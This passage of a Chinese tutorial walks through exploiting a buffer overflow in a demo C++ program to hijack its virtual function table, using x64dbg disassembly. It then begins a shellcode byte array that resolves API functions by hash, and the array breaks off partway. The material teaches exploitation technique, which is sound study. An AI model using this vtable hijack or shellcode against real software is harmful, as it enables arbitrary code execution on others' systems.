 
我们来看看这个程序：虚函数 gsv 中存在明显的溢出漏洞，通过溢出，我们可以将虚函数表覆盖掉，然后执行我们想要的流程。  
我们知道，超过 200 字节之后，就可以覆盖掉其他参数，我们通过 x64dbg 来看看：

[![](assets/1708919791-e90c869e957752159ee7ca95c1d9ec7c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218121320-0c9361ae-ce14-1.png)

注意这里我给文本文件中写入了 195 个字节，加上\\x00，就是 196 字节  
我们再来看看程序调用虚函数的过程：

[![](assets/1708919791-ca110aa8b44e14a92df87a07a46ef2d8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218121331-133d389a-ce14-1.png)

可以看到，这里的`ebp-8`就是函数中，指向 test 对象的指针，也就是 this 指针，获取虚函数指针的步骤为：

1.  取出`ebp-8`的值（this），放入`eax`
2.  从`eax`(this) 中，取出前 4 个字节，为虚表指针，放入`edx`
3.  从虚函数表中`edx`获取前 4 个字节，这 4 个字节就是虚函数`MyFunc`的地址了，放入 eax
4.  `call eax`完成虚函数调用

现在我们要通过溢出，来劫持虚函数，也就是说（对照前面获取虚函数指针的步骤）：

1.  取出`ebp-8`的值，这里存储着我们的==参数的地址==，被当作 this 指针，放入`eax`
2.  从`eax`）中取出 4 字节（实际上指向我们的原始参数），被当作虚函数表，放入`edx`
3.  从`edx`（也就是我们参数的前四个字节），被当作虚函数指针放入`eax`
4.  `call eax`完成调用

现在我们要做的，就是把我们的参数的前四个字节（被当作虚函数执行），改为我们想要执行的地址，然后使用参数覆盖掉`ebp-8`（覆盖为我们原始参数）。  
既然是 call 我们的参数的前 4 个字节，那我们直接将参数前四个字节设置为我们的参数，这样就能够直接 call 我们的 shallcode:

```bash
unsigned char hexData[204] = {
    0xBD, 0xFC, 0x19, 0x00, 0x90, 0x90, 0x90, 0x90,
    0xFC, 0x68, 0x6A, 0x0A, 0x38, 0x1E, 0x68, 0x63,
    0x89, 0xD1, 0x4F, 0x68, 0x32, 0x74, 0x91, 0x0C,
    0x8B, 0xF4, 0x8D, 0x7E, 0xF4, 0x33, 0xDB, 0xB7,
    0x04, 0x2B, 0xE3, 0x66, 0xBB, 0x33, 0x32, 0x53,
    0x68, 0x75, 0x73, 0x65, 0x72, 0x54, 0x33, 0xD2,
    0x64, 0x8B, 0x5A, 0x30, 0x8B, 0x4B, 0x0C, 0x8B,
    0x49, 0x1C, 0x8B, 0x09, 0x8B, 0x69, 0x08, 0xAD,
    0x3D, 0x6A, 0x0A, 0x38, 0x1E, 0x75, 0x05, 0x95,
    0xFF, 0x57, 0xF8, 0x95, 0x60, 0x8B, 0x45, 0x3C,
    0x8B, 0x4C, 0x05, 0x78, 0x03, 0xCD, 0x8B, 0x59,
    0x20, 0x03, 0xDD, 0x33, 0xFF, 0x47, 0x8B, 0x34,
    0xBB, 0x03, 0xF5, 0x99, 0x0F, 0xBE, 0x06, 0x3A,
    0xC4, 0x74, 0x08, 0xC1, 0xCA, 0x07, 0x03, 0xD0,
    0x46, 0xEB, 0xF1, 0x3B, 0x54, 0x24, 0x1C, 0x75,
    0xE4, 0x8B, 0x59, 0x24, 0x03, 0xDD, 0x66, 0x8B,
    0x3C, 0x7B, 0x8B, 0x59, 0x1C, 0x03, 0xDD, 0x03,
```